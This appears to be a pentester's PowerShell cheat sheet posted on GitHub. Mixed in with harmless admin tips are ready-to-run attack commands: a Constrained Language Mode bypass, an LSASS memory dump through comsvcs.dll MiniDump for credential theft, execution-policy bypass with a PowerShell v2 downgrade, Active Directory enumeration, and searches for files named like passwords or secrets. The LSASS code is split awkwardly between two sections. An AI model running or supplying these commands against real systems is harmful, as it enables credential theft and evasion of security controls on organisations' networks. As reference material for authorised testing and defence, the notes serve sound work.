 # Powershell_stuff

#Check if Full or Constrained Language Mode is in place.   
$ExecutionContext.SessionState.LanguageMode

#Set Proxy Settings Manually in Powershell (enter in Creds)

	$Wcl=New-Object System.Net.WebClient   
	$Creds=Get-Credential   
	$Wcl.Proxy.Credentials=$Creds   
	Invoke-WebRequest http://www.google.co.uk   

If you get a 200 back you're all good.

# CLM Bypass   
	#Path to Powershell
	$CMDLine = "$PSHOME\powershell.exe"

	#Getting existing env vars
	[String[]] $EnvVarsExceptTemp = Get-ChildItem Env:* -Exclude "TEMP","TMP"| % { "$($_.Name)=$($_.Value)" }

	#Custom TEMP and TMP
	$TEMPBypassPath = "Temp=C:\windows\temp"
	$TMPBypassPath = "TMP=C:\windows\temp"

	#Add the to the list of vars
	$EnvVarsExceptTemp += $TEMPBypassPath
	$EnvVarsExceptTemp += $TMPBypassPath

	#Define the start params
	$StartParamProperties = @{ EnvironmentVariables = $EnvVarsExceptTemp }
	$StartParams = New-CimInstance -ClassName Win32_ProcessStartup -ClientOnly -Property $StartParamProperties

	#Start a new powershell using the new params
	Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = $CMDLine
	ProcessStartupInformation = $StartParams
	}

	#lsass dump
	$processes = Get-Process
	$location = Get-Location

#.NET Framework Versions in place
```
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse |
Get-ItemProperty -name Version, Release -EA 0 |
Where-Object { $_.PSChildName -match '^(?!S)\p{L}'} |
Select-Object @{name = ".NET Framework"; expression = {$_.PSChildName}},
@{name = "Product"; expression = {$Lookup[$_.Release]}},Version, Release
```

#LSASS Dump
```
$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
		Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
		Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.log"
		rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.log full | Out-Null
		Compress-Archive -Path $location\$env:COMPUTERNAME.log -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression
```


#ENABLE TLS1.2 if you receive a message Regarding an ISSUE with TLS   
```
[Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12
```

#Execute Powershell with Exec bypass and stay in Version 2
```
powershell.exe -Version 2 -ExecutionPolicy bypass
```

#Powershell Specific Tooling

# PowerSharpPack
```
PowerSharpPack -SharpShares -Command "--shares"
```

#Domain Enumeration

#Group Membership  
```
([ADSISEARCHER]"samaccountname=$('ENTERUSERNAME')").Findone().Properties.memberof -replace '^CN=([^,]+).+$','$1' | sort-object
```

#Aliases
```
dir = Get-ChildItem
```

#Current Domain Password Policy
```
$domain = [adsi](“WinNT://DOMAIN.local”)
$domain.Properties.Keys | Foreach {
  @{$_ = [string]$domain.Properties.Item($_) }
}
```


#Search for any file with the extension (.doc, .xls, .pdf) export output to 'files.csv'
```
get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*.doc*’,’*.xls*’,’*.pdf’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv
```

#Or if you wanted to do several wildcard searches for sensitive files (replace the terms as necessary):
```
get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*password*’,’*sensitive*’,’*secret*’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv
```
